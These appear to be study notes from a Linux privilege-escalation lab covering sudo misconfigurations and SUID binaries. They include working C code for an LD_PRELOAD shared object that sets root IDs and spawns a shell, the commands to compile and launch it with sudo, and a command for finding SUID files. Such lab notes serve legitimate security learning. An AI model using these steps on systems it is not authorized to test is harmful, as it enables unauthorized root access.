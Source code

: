 ### Task 6: Privilege Escalation: Sudo

Remember: sudo -l and gtfobins


#### Leverage Application Functions

For example, Apache2 can use `-f` to leverage alternative configuration files.


#### Leverage LD_PRELOAD

On some systems, you may see LD_PRELOAD.

This allows any program to use shared libraries. The steps to exploit this are as follows:

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file


The following C code can be used:

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```


Then `$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles`


Now we can use this shared object when launching any program our user can run with sudo. To do this, we need to run the program by specifying the LD_PRELOAD option:

`$ sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`



### Task 7: Privilege Escalation: SUID

Much of Linux privilege controls rely on controlling the users and files interactions. 

This is done with permissions. Files can have Read, Write, and Execute Priviliges.

These files have a `s` bit in their permission level. 

` find / -type f -perm -04000 -ls 2>/dev/null `



The lab part:

It was the base64 binary that was used to read the flag file. 
